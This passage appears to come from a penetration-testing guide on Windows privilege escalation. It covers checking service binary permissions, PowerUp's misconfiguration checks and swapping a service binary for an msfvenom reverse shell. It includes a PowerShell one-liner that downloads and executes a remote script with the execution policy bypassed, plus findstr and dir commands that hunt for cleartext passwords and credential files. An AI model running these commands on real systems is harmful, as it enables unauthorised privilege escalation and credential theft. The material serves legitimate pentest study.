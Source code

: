 ### Check Permissions

We might even be able to override the service executable, always check out the permissions of the service binary:

```
icacls "C:\Program Files (x86)\Program Folder"
```

You can automate with meterpreter:

```
exploit/windows/local/trusted_service_path
```

## PowerUp

PowerUp is an extremely useful script for quickly checking for obvious paths to privilege escalation on Windows. It is not an exploit itself, but it can reveal vulnerabilities such as administrator password stored in registry and similar. We shamelessly use [harmj0y's guide](https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/) as reference point for the following guide. Some basic knowledge about how to import Powershell modules and used them is required.

PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations

Import the PowerUp module with the following:

`PS C:\>` `Import-Module PowerUp.ps1`

### **CanRestart**

| <p>The <strong>CanRestart</strong> option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!</p><p>Use msfvenom to generate a reverse shell as an Windows executable.</p> |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

If you want to invoke everything without touching disk, use something like this:

`C:\> powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”`

## Finding stuff fast

#### ClearText passwords (quick hits)

`findstr /s /C:"stringtosearchfor.txt" "C:*"`

We might sometimes find passwords in arbitrary files, you can find them running:

```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
```

#### Find all those strings in config files.

```
dir /s *pass* == *cred* == *vnc* == *.config*
```
